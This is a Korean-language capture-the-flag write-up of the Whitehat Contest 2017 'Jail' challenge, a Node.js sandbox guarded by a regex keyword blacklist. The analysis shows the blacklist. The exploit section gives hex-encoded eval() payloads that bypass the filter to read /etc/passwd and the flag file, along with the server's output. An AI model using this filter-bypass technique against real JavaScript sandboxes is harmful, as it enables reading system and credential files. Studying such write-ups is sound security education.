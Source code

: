 # Whitehat Contest 2017 - [misc] Jail

### Description

> nc challenges.whitehatcontest.kr 5959



### Analysis

바로 nc로 붙어보니 `hint, quit` 문구를 쳐보라고 서버가 응답을 해줬다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> 
```



hint를 입력해보니 다음과 같이 RegExp 정규 표현식 안에 문자열이 쭈르륵 나열되었다. 음?

```
> hint
(input) => (new RegExp(/with|\.|;|new| |'|child|crypto|os|http|dns|net|tr|tty|zlib|punycode|util|url|ad|nc|>|`|\+|ex|=/i).test(input))
```



아무 문자열이나 입력해보았다.

리스트에 포함되지 않는 문자는 hm..이라는 응답이 오고

포함되는 문자는 nop 응답이 돌아오는 것으로 보아 필터링인 것을 알 수 있었다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> test
hm..

$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> os
nop
```



그러나 많은 필터링 리스트에 eval() 함수가 빠져있다.

eval() 함수 + 인코딩으로 필터링 우회가 가능할 것 같다.



### Exploit

[node.js][node.js] API 문서를 참고해보니 readFileSync() 함수를 사용하여 js 파일 시스템에 접근이 가능했다.

파일 시스템 접근을 위해 'fs' 모듈을 임포트 해줘야 하므로 with 함수와 require를 함께 사용한다.

> query:  with(require('fs')){readFileSync('/etc/passwd')}
>
> encoded:  \x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d")
your input root:x:0:0:root:/root:/bin/ash
.
.
.
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
jail:x:1001:1001:Linux User,,,:/home/jail:
```



눈에 익은 계정이 하나 보인다. 

계정 디렉터리 아래 플래그가 있는지 확인해보았다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x68\x6f\x6d\x65\x2f\x6a\x61\x69\x6c\x2f\x66\x6c\x61\x67\x27\x29\x7d")
your input flag is {easy~esay!easy?_Jav4-scr1pt~yay}
```

flag is

**easy~esay!easy?_Jav4-scr1pt~yay**



[node.js]: https://nodejs.org/api/fs.html